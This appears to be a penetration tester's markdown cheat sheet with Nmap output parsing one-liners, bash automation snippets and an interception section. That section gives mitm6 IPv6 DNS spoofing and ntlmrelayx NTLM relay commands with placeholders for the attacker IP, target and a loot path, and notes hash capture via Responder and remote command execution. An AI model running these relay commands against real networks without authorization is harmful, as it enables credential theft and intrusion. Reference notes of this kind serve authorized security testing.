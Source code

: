 # Parsing output
## Cutting Nmap results
### Parsing live hosts from discovery scan
`grep Host <inputfile.gnmap> | cut -d" " -f 2 | sort -u > <outputfile>`

### Listing unique open ports from a previous scan
`grep syn-ack <inputfile.nmap> | cut -d/ -f 1 | sort -u > <outputfile>`

### Removing line breaks and inserting commas for Nmap port specification
`sed -n -e 'H;${x;s/\n/,/g;s/^,//;p;}' < <inputfile>`

# Interception

## Bettercap

## mitm6
`mitm6 -d <fulldomain>`

Can run with Responder to get hashes when LLMNR is disabled.

Or, relies on ntlmrelayx running with appropriate settings:

## ntlmrelayx
`ntlmrelayx.py -6 -wh <attackerip> -t smb://<targetip> -l <path/to/loot> -socks -debug`

Can also be used to execute commands.

# Automation
## Bash
### Repeat command for each line of a file
`while read ip; do <command> "$ip"; done < <inputfile>`

Good for automating commands that only accept one target.

### Save command output to file
`<command> | tee <outputfile>`

Useful for tools that don't have a logging feature, e.g. SMBMap.

### Rename multiple files in a folder while keeping their extension
``` bash
a=1
for i in *.ext; do
  num=$(printf "%04d.ext" "$a")
  mv -i -- "$i" "<prefix>-$(date +%Y-%m-%d)-$num"
  let a=a+1
done
```
